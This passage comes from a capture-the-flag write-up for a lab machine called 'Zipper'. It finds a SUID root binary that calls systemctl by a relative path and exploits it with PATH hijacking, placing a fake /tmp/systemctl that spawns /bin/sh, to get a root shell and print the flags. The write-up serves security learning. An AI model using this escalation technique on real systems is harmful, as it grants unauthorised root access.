 #### 7.1. Interesting `utils` directory
```
zabbix@zipper:/$ ls -la /home/zapper/utils
total 20
drwxrwxr-x 2 zapper zapper 4096 Sep  8 13:27 .
drwxr-xr-x 6 zapper zapper 4096 Sep  9 19:12 ..
-rwxr-xr-x 1 zapper zapper  194 Sep  8 13:12 backup.sh
-rwsr-sr-x 1 root   root   7556 Sep  8 13:05 zabbix-service
zabbix@zipper:/$ file /home/zapper/utils/zabbix-service
/home/zapper/utils/zabbix-service: setuid, setgid ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=70745588e3c50ad90b7074ea8f9bf16f5a12e004, not stripped
```
Note: `zabbix-service` is a SUID/GUID binary


#### 7.2. Analysis of the `zabbix-service`
```
zabbix@zipper:/$ /home/zapper/utils/zabbix-service
start or stop?:
[!] ERROR: Unrecognized Option
zabbix@zipper:/$ strings /home/zapper/utils/zabbix-service | cat -n | grep start
    15	__libc_start_main
    21	__gmon_start__
    26	start or stop?:
    27	start
    28	systemctl daemon-reload && systemctl start zabbix-agent
    45	__init_array_start
    59	__data_start
    63	__gmon_start__
    66	__libc_start_main@@GLIBC_2.0
    70	__bss_start
```
Note: execution of binary `systemctl` from relative location than absolute (`/bin/systemctl`)


#### 7.3. Exploitation
```
zabbix@zipper:/$ systemctl --help | wc -l
145
zabbix@zipper:/$ echo "/bin/sh" >> /tmp/systemctl # drop a shell when executing `systemctl` from privileged binary
zabbix@zipper:/$ chmod +x /tmp/systemctl
zabbix@zipper:/$ export PATH=/tmp:$PATH           # make sure it's in path
zabbix@zipper:/$ which systemctl
/tmp/systemctl
zabbix@zipper:/$ systemctl                        # /bin/sh was executed as planned
$ exit
zabbix@zipper:/$ /home/zapper/utils/zabbix-service
start or stop?: start
# id
uid=0(root) gid=0(root) groups=0(root),113(zabbix)
```


#### 7.4. The flags
```
root@zipper:/# cat /root/root.txt
a7c743d35b8efbedfd9336492a8eab6e
root@zipper:/# cat /home/zapper/user.txt
aa29e93f48c64f8586448b6f6e38fe33
```
